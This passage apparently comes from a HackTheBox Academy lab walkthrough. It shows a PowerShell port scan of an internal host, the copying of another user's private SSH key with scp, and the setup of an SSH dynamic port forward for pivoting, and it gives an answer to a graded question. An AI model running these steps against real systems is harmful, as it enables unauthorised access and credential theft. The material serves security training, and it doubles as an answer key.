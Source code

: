 ```
inlanefreight\ambioris@SRV01 C:\Users\ambioris>powershell

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\ambioris> 2200..2300 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.20.0.52",$_)) "Port $_ is open!"} 2>$null
```

Answer: `2299`

# Secure Shell (SSH)

## Question 4

### "Authenticate to SRV02 using the SSH key you found. Which domain user can authenticate with the SSH Key you found on Ambioris's folder?"

Students will reuse the previously spawned target to obtain the SSH key located in the `C:\Users\ambioris\.ssh` directory using `SCP` using `ambioris`' credentials:

Code: shell

```shell
scp ambioris@STMIP:/Users/ambioris/.ssh/unknown_id_rsa .
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ scp ambioris@10.129.229.244:/Users/ambioris/.ssh/unknown_id_rsa .

ambioris@10.129.229.244's password: 
unknown_id_rsa                                                                                                                                              100% 1679    89.9KB/s   00:00 
```

Students will establish a dynamic port-forwarding through SSH and spawn \`PowerShell:

Code: shell

```shell
ssh -D 9050 ambioris@STMIP
powershell
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ ssh -D 9050 ambioris@10.129.229.244
ambioris@10.129.229.244's password:

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\ambioris@SRV01 C:\Users\ambioris>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\ambioris> 
```
